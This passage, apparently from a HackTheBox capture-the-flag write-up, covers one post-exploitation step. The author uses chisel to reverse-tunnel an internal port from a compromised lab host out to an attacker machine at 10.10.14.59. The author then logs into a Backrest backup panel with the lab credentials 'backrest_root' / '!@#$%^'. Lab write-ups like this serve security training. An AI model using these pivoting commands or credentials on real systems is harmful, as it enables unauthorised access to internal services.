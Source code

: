 Found an interesting port `9898`. <br>
&rarr; Let's tunnel it to our kali machine with [chisel](https://github.com/jpillora/chisel).

```bash
└─$ ./chisel server --reverse --port 9000        
2025/06/23 23:02:00 server: Reverse tunnelling enabled
2025/06/23 23:02:00 server: Fingerprint vzDtaYT87eDXCM0G4K9KCGA4O7j5AjDEHMKF32hOzuQ=
2025/06/23 23:02:00 server: Listening on http://0.0.0.0:9000
```

```bash
gael@artificial:/tmp$ ./chisel client 10.10.14.59:9000 R:9898:127.0.0.1:9898
2025/06/24 03:06:21 client: Connecting to ws://10.10.14.59:9000
2025/06/24 03:06:24 client: Connected (Latency 175.892494ms)
```

```bash
└─$ ./chisel server --reverse --port 9000        
2025/06/23 23:02:00 server: Reverse tunnelling enabled
2025/06/23 23:02:00 server: Fingerprint vzDtaYT87eDXCM0G4K9KCGA4O7j5AjDEHMKF32hOzuQ=
2025/06/23 23:02:00 server: Listening on http://0.0.0.0:9000
2025/06/23 23:06:23 server: session#1: tun: proxy#R:9898=>9898: Listening
```

Perfectly tunneled. Let's check out the port `9898`.

![Port 9898](/assets/img/artifical-htb-season8/artifical-htb-season8_port_9898.png)

Login with `backrest_root` user and password `!@#$%^`.

![Port 9898](/assets/img/artifical-htb-season8/artifical-htb-season8_port_9898_login.png)

![Port 9898](/assets/img/artifical-htb-season8/artifical-htb-season8_port_9898_page.png)

So they use [backrest](https://github.com/garethgeorge/backrest), which is a **web-based backup management tool** for **restic** - providing a web interface to easily manage, schedule and monitor backup repositories.
